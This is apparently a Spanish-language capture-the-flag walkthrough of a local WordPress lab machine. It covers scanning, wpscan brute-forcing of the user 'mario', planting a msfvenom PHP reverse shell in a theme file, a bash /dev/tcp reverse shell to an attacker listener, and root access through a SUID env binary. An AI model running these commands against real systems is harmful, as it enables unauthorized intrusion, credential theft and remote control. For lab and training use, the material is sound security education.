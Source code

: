 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh
```

![Pasted image 20250201124208](https://github.com/user-attachments/assets/13b7e9b6-be60-4e4c-9bee-994c793344d4)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250201125003](https://github.com/user-attachments/assets/5e7f9e32-7f6f-4b6b-8825-52cbf1198d6c)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250201125337](https://github.com/user-attachments/assets/b1ab13b0-1b87-45d8-8e6f-5aa9b790d13a)

![Pasted image 20250201134452](https://github.com/user-attachments/assets/141b81cf-2d67-4431-aa21-6d8f14cac58c)

Nos metemos en la web:

![Pasted image 20250201134823](https://github.com/user-attachments/assets/a7b107df-8cb9-4d65-a5dd-75d5e857586e)

Buscamos un usuario con **wpscan**:

```Bash
wpscan --url http://172.17.0.2/wordpress --enumerate u
```

![Pasted image 20250201130803](https://github.com/user-attachments/assets/8eb0b69b-78e3-4468-9d2f-b56432f2eb9a)

![Pasted image 20250201131856](https://github.com/user-attachments/assets/69731d18-9f1c-47fe-b1f5-2609388de5e2)

Encontramos el usuario mario. Ahora buscamos la contraseña:

```Bash
wpscan --url http://172.17.0.2/wordpress -U mario -P /usr/share/wordlists/rockyou.txt
```

![Pasted image 20250201133332](https://github.com/user-attachments/assets/6669df67-7ed3-49fb-a1c9-f59e6c06e67b)

![Pasted image 20250201133423](https://github.com/user-attachments/assets/86856ee5-54a4-4fda-b3dc-56096b952eef)

mario: love.

Nos logeamos:

![Pasted image 20250201134851](https://github.com/user-attachments/assets/86958424-c82f-435b-8a27-7e2c724a5b40)

Nos vamos a Apariencia -> Theme Code Editor:

![Pasted image 20250201144943](https://github.com/user-attachments/assets/042c66ad-72a0-4ba3-9414-91692adc2b86)

![Pasted image 20250201162508](https://github.com/user-attachments/assets/90e10b85-69d9-44b3-9775-96d617fb226f)

Nos saldrá una página index.php que meteremos nuestro código.

![Pasted image 20250201162554](https://github.com/user-attachments/assets/13826dbc-4a4d-4ec4-8079-9a81f1322b39)

Creamos código con **msfvenom** para una shell.php:

```Bash
msfvenom -p php/reverse_php  LHOST=172.17.0.1 LPORT=4444 -f raw > shell.php
```

![Pasted image 20250201144730](https://github.com/user-attachments/assets/71bee510-e43b-4806-b4cc-02441b853044)

Lo copiamos:

```Bash
cat shell.php
```

![Pasted image 20250201144804](https://github.com/user-attachments/assets/a87288be-6ee3-41d0-b930-e17337580c5c)

Lo pegamos y subimos en index.php:

![Pasted image 20250201144914](https://github.com/user-attachments/assets/c904c901-154f-47a7-9142-545100df161b)

Nos ponemos a la escucha con **netcat**:

```Bash
nc -lnvp 4444
```

![Pasted image 20250201135929](https://github.com/user-attachments/assets/2eeaff79-eb99-48cb-acec-e6493c1775e0)

Nos ponemos otra:

```Bash
nc -lnvp 443
```

![Pasted image 20250201145606](https://github.com/user-attachments/assets/10d49d9e-9412-4a30-a138-5c31bfa7ebf8)

Ejecutamos la ruta en el navegador:

```Bash
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```

![Pasted image 20250201145258](https://github.com/user-attachments/assets/d8c9c264-0107-4930-a881-0a46cf96247c)

Miramos en la shell:

![Pasted image 20250201145543](https://github.com/user-attachments/assets/c6eaa5dc-82ed-4bb2-a511-7289e8dd0fb4)

Nos la mandamos a la otra shell:

```Bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"
```

![Pasted image 20250201145838](https://github.com/user-attachments/assets/6f581e7f-58aa-4388-bea1-d6a9334e5c79)

Miramos la otra shell:

![Pasted image 20250201145933](https://github.com/user-attachments/assets/ac6a5ad7-4ee1-41cb-a96d-3e1e1cee217c)

Elevamos privilegios:

```Bash
find / -perm -4000 2>/dev/null
```

![Pasted image 20250201155731](https://github.com/user-attachments/assets/1d6ac733-9dc5-49cb-b828-3119a2b3cb09)

```Bash
/usr/bin/env /bin/bash -p
```

![Pasted image 20250201150345](https://github.com/user-attachments/assets/7b6e0fbc-f7c6-48a0-b79f-4c72dfa9a90f)

```Bash
whoami
```

![Pasted image 20250201154317](https://github.com/user-attachments/assets/b70fa614-e337-4ed2-8f33-5ed367fe9ea7)
